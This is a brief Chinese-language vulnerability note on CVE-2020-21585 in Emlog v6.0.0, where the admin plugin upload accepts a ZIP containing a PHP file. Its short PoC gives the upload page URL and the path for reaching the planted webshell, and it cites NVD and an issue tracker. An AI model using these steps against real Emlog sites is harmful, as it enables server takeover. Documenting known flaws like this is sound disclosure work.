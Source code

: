 # Emlog v6.0.0 ZIP插件GETSHELL（CVE-2020-21585）

emlog v6.0.0中的漏洞允许用户通过zip插件模块上传webshel​​l。

**PoC：**

```
http://x.x.x.x/emlog/src/admin/plugin.php
编辑一个ZIP包，包含xx/xx.php 
访问之：http://127.0.0.1/emlog/src/content/plugins/abc/abc.php
```

ref：

* https://nvd.nist.gov/vuln/detail/CVE-2020-21585
* https://github.com/pwnninja/emlog/issues/1